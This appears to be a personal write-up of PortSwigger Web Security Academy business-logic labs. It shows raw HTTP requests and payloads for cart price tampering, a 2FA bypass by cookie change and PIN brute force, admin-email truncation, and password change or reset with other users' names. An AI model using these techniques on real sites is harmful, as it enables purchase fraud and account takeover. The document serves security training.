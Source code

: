 # Title: Business Logic vulnerability's , *Web Academy*
- 👨‍💻By: Nathan Hailu
- 🗒Description: Labs are solved and their write up is here.
- 📅Date:  Fri 12/16/2022

================= { START } ==============================
A) Excessive trust in client-side controls
    When you order a products sites might include the amount of money inside the header as the following.
        POST /cart HTTP/1.1
        Host: 0a7600820378f9bac391207200d40016.web-security-academy.net
        Cookie: session=Ob6eiiqmMCuwttVCCRjagQEsg1US9tzR
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        productId=1&redir=PRODUCT&quantity=1&price=133700

        > Here we test the site by changing the price value to other and test if it works

B) 2FA broken logic
    Still looking into the header you can see that the site is validating the user by a cookie name called verify so changing the value there and trying to bruteforce the pin you can bypass it
        POST /login2 HTTP/1.1
        Host: 0aff00e303b87fdcc03c27c100a000fb.web-security-academy.net
        Cookie: session=liecaxPnaznrk54MItecLSRlMcNsz1g0; verify=carlos
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        mfa-code=1829

C) High-level logic vulnerability
    The website do client side validations, it check the price of a cart with client side javascript this can be manipulated by using some negative integers with the quantity of a product so i can buy $1339 price product by adding -15 quantity of $86 product when they are added the total price will be minimum and might be equal with the money we have in our stock.

D) Inconsistent handling of exceptional input
    This site displays 256 characters on the email field so, if i added 256 character with an admin email and extra {dot normal email} on the registration, then i can have the admin email displayed and the normal will be cut out. This helps to accept verification emails with my normal email, and have admin access with the admin email.
    solution: 
    email:"hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com.exploit-0a2100e904a468d2c061673a01a40020.exploit-server.net"  

    Displayed: "hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com"
    So i can have admin account.

E) Inconsistent security controls
    This lab, doesnt have any flaw on the registration and login part. but you have "Update email" feature. The admins have @Dontwannacry.com domain on the email so, it i registered with normal and changed my email to this domain then i can exploit the site/lab.

F) Weak isolation on dual-use endpoint
    Here The lab have a password changing feature.But it requires for Username, Current Password and New password. Here you can add any username you want, so if i don't know the current password of other users i can remove the current-password= parameter and i can change password of any users.
    1ST: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&**current-password=peter**&new-password-1=peter&new-password-2=peter
    HACKER: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&new-password-1=peter&new-password-2=peter

G) Password reset broken logic
    When we ask the site for forgotted password reset, the site sends some link that have a random and uniqeu token that possesses to our account. we cant break this but if we intercept the request and send the new password after we accessed the password reseting page, we might have access to change other users pass to because of the broken logic. like below

	temp-forgot-password-token=FHxuvaqUKBZ31QE5PYpJabawSdcc57vM&username=carlos&new-password-1=test&new-password-2=test
		-> here we can change the user name and we got his password!
